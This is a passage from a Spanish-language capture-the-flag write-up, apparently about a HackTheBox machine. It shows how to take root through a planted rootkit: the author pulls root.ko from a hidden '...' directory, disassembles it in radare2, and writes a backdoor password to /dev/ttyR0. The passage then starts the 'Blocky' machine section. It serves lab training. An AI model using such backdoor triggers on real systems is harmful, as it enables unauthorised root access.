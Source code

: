 Pero no functionna. Pensamos aqui que los atacantes que han instalado el rootkit cambiaron la contraseña.
Segun la web, la contraseña se encuentra en un fichero `root.ko` y mirandolo bien hay un directorio que se
llama `...` (Que cabron)

```bash
cd ...
binary
get root.ko
```

Una vez descargado y como es un binario, tratamos de ver lo que pasa a mas bajo nivel con **radare2**

```bash
radare2 root.ko
aaa
afl
sym.root_write
pdf
```

<div class="figure">
<img src="images/radare2rootko.png" alt="radare2 root.ko" width="90%" />
<p class="caption">(\#fig:unnamed-chunk-15)radare2 root.ko</p>
</div>

Vemos esta parte interesante y probamos una vez mas con:

```bash
echo "g3tPr1v" > /dev/ttyR0; whoami

root
```

Ya estamos root y podemos ver la flag.



# Blocky {-}

## Introduccion {-}

La maquina del dia 30/07/2021 se llama Blocky
.

El replay del live se puede ver aqui

[![S4vitaar Blocky maquina](https://img.youtube.com/vi/LPh8BTqEx2c/0.jpg)](https://www.youtube.com/watch?v=LPh8BTqEx2c)
